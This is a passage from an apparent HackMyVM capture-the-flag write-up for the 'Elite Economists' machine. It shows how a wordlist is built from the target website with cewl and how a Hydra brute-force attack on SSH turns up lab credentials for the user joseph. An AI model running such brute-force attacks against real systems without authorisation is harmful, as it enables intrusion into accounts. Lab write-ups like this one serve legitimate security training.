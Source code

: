 Since we cannot find any juicy information we should enumerate the website of Elite Economists. Let's open it in Firefox.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/elite-economists]
└─$ firefox http://$ip &             
[1] 33763
```



![Website](/assets/img/WriteUp/HackMyVM/Economists/Pasted image 20230914095537.png){: width="700" height="400" }

We should enumerate every detail, function and field in the website and make some notes about it.

![error](/assets/img/WriteUp/HackMyVM/Economists/Pasted image 20230914133232.png){: width="700" height="400" }

There is an error message indicating that we should contact an employee to check the status of a service.

Since we did not find anything yet on the website we should consider creating a dictionary based on words of the website. We can utilize cewl to create a file.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/elite-economists]
└─$ cewl -d 2 -m 5 -w passwords.txt http://$ip
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```
As soon as the dictionary is created we can try to run a brute force attack against the SSH service with Hydra.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/elite-economists]
└─$ hydra ssh://$ip -L users.txt -P passwords.txt -t 64 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-14 09:56:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 1328 login tries (l:4/p:332), ~21 tries per task
[DATA] attacking ssh://10.0.2.12:22/
[22][ssh] host: 10.0.2.12   login: joseph   password: wealthiest
[STATUS] 500.00 tries/min, 500 tries in 00:01h, 860 to do in 00:02h, 32 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
                                                                                      
```
It looks like we have found a password for the user `joseph`. We should add the username and password to our notes.
```PASSWORD
wealthiest
```

------
## Initial access
With the credentials we have found we could try to logon to the SSH service as Joseph.

